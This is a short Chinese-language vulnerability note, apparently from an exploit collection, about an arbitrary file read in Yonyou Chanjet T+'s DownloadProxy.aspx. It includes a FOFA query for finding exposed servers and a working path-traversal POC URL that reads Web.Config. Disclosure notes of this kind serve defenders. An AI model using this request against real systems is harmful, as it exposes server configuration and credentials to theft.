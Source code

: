 # 用友 畅捷通T+ DownloadProxy.aspx 任意文件读取漏洞

## 漏洞描述

用友 畅捷通T+ DownloadProxy.aspx文件存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器上的敏感文件

## 漏洞影响

```
用友 畅捷通T+
```

## FOFA

```
app="畅捷通-TPlus"
```

## 漏洞复现

登录页面

![image-20220909104559292](./images/202209091045361.png)

验证POC

```
/tplus/SM/DTS/DownloadProxy.aspx?preload=1&Path=../../Web.Config
```

![image-20220909104628456](./images/202209091046535.png)

